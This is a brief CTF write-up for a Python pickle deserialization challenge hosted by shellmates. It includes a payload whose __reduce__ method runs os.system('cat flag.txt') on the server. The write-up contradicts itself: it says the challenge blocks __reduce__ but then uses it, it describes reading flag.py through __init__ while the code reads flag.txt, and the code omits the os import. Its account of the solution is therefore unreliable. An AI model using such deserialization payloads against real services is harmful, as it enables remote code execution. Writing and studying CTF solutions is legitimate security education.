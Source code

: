# pickle games 1

## Description:

> Tags: medium

> I bet the first one was pretty easy after understanding what pickle is.
But now that I REDUCEd the inputs allowed, can you still reach the FLAG variable?

> Author : chenx3n

> ncat -v --ssl pickle-games-2.challs.shellmates.club 443

> Files : [challenge.py](challenge.py)

## First thoughts:

The challenge is a follow-up, so it should be a harder than the first one.

## Reading the script:

Reading the script, we found that the input is passed to a `check` function, and it's checking if we have used the `__reduce__` method and if the payload length is less than 400 bytes.

## Solving the challenge:

What I did is I used the existing `FLAG` that's already imported, and using the `__init__` method, I read the file `flag.py`, in other words: I used the `FLAG` to read the flag.

![meme](meme.jpg)

```py
import pickle

class GetFlag():
    def __reduce__(self):
        command = ('cat flag.txt')
        return os.system, (command,)

pickled = pickle.dumps(GetFlag())
print(pickled.hex())
```

and the flag is:

```
shellmates{No_RedUC1Ng_N3ED3d}
```
